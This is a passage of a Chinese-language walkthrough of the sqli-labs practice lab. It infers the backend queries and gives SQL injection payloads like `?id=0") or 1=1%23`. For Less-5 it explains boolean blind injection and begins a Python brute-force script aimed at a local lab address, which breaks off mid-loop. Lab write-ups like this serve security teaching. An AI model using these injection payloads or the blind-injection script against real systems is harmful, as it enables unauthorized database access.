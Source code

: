 传入参数`?id=1"`时，页面报错，传入参数`?id=1`、`?id=1'`时页面没有报错，猜测后台sql语句类似

```php
$id = '"'.$_GET['id'].'"';
$sql = "select * from users where id = ($id)";
```

传入参数`?id=1"`时，sql语句变成了

```sql
select * from users where id = ("1"")
```

![5](/medias/sqli-labs/5.png)

所以页面报错，报错里的信息暴露了后台sql语句`"1"")`，可以猜测使用的是`($id)`

::: danger
for the right syntax to use near '"1"")LIMIT 0,1' at line 1
:::



可以传`?id=1") or 1=1%23`，把原有的双引号、括号以及后面内容注释掉，保证sql语句正确。后面正常拼接联合查询sql语句即可

```sql
?id=0") or 1=1%23
```

经过php处理id后，id拼接成了`"0") or 1=1%23"`，sql语句变成了

```sql
select * from users where id = ("0") or 1=1%23
```

接着就是正常爆库爆表操作

```sql
?id=0") or 1=1%23
```

## Less-5

像前面一样，通过传入`?id=1'`、`?id=1"`、`?id=1'`等参数，在`?id=1'`时页面报错`right syntax to use near ''1'' LIMIT 0,1'`，猜测后台sql语句类似

```sql
$id = $_GET['id'];
$sql = "select * from users where id = '$id'";
```

### 布尔盲注


区别于前几题，这里没有回显位，只有两种结果`You are in...`和无回显


写了一个布尔盲注脚本

这个利用了`substr()`函数，通过回显是否包含`You are in`，来判断爆破的每一位是否正确

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://192.168.6.246:8080/Less-5/"
i = 1
print("脚本正在运行.......")
while True:
    for s in flags:
        # 爆库
```